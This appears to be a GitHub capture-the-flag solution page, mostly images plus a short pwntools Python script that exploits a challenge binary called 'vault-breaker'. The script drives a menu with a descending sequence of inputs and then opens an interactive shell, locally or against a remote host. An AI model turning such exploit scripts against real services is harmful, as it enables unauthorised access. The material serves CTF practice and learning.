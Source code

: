 


# ![image](https://github.com/user-attachments/assets/7ee7128e-ac04-4e1d-82aa-5a774d0cced6)

"""
#ab.py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
"""

# ![image](https://github.com/user-attachments/assets/ada66c6b-172a-4d73-972b-6d702fda0919)

# ![image](https://github.com/user-attachments/assets/e3a89554-574f-4a17-b5cf-cd40f8613ba0)
